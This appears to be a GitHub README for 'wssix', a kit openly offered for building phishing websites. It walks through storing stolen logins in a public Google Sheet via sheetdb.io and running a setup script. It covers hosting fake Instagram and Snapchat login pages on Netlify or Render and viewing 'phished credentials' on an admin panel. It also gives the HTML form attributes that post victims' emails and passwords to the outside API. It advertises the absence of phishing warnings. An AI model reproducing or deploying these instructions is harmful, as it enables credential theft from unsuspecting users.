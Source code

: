 
# **wssix**
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells.    ( **Just type these words not your email and password** )
```
   ______________   _______________
|_____EMAIL______| |___PASSWORD____|
```
![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## 
## **Setup Admin and Phishing Panel**  ...

- Clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Go to wssix folder
```bash
cd wssix
```
- Now, run script.py file and enter your api key as an argument . For example:
```bash
python3 script.py YOUR-API-KEY
```
- Your files are ready now !!!!

Now host **Admin** folder and **client** folder.

For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

**After hosting client folder you can access phish pages with /**
```
https://*******.***/instagram
```
```
https://*******.***/snapchat
```
### You can see phished credentials on admin panel.

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

